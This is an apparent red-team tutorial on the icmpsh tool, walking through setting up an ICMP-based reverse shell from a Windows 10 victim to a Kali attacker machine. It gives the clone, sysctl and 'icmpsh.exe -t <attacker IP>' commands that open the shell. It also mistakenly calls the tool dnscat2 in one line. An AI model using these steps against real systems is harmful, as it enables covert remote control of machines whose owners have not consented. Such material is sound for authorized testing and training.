

# Red Teaming Squad

## icmpsh: Command and Control with ICMP

icmpsh is a simple reverse ICMP shell with a win32 slave and a POSIX compatible master in C, Perl or Python. The main advantage over the other similar open-source tools is that it does not require administrative privileges to run onto the target machine.

The tool is clean, easy and portable. The slave (client) runs on the target Windows machine, it is written in C and works on Windows only whereas the master (server) can run on any platform on the attacker machine as it has been implemented in C and Perl by Nico Leidecker and later it also gets ported into Python too.

**Requirment**

* Attacker Machine or C2-channel : **Kali Linux**
* Host machine : **Windows 10**

It is very easy to install and use as c2-channel.

### Installation

Run the following git command to download dnscat2 in your host machine :

`git clone https://github.com/inquisb/icmpsh.git`

<kbd></kbd>

Once the downloads have been completed, you can use the following command to run the tool. The most important step before taking action is to disable ping reply on your machine. This prevents the kernel from responding to ping packets itself.

First you have to go to the directory

`cd icmpsh`

<kbd></kbd>

to disable to ping use follwing command

`sysctl -w net.ipv4.icmp_echo_ignore_all=1`

After that run the tool by executing python file. Also you have to give Attacker machine Ip address and Target machine Ip address.

<kbd></kbd>

Now again install icmpsh tool inside the host machine which is windows 10. To run the exe file target machine does not require administrative privileges.

To run the exe file use following command:

`icmpsh.exe -t 192.168.1.108`

Here `-t` stands for attacker's machine Ip address. 

<kbd></kbd>

Once the above command is executed on the victim machine, the intrude will have reverse shell of victim machine. You can observe from the image given below that the machine controls the victim machine by spawning its prompt of command.

<kbd></kbd>

<kbd></kbd>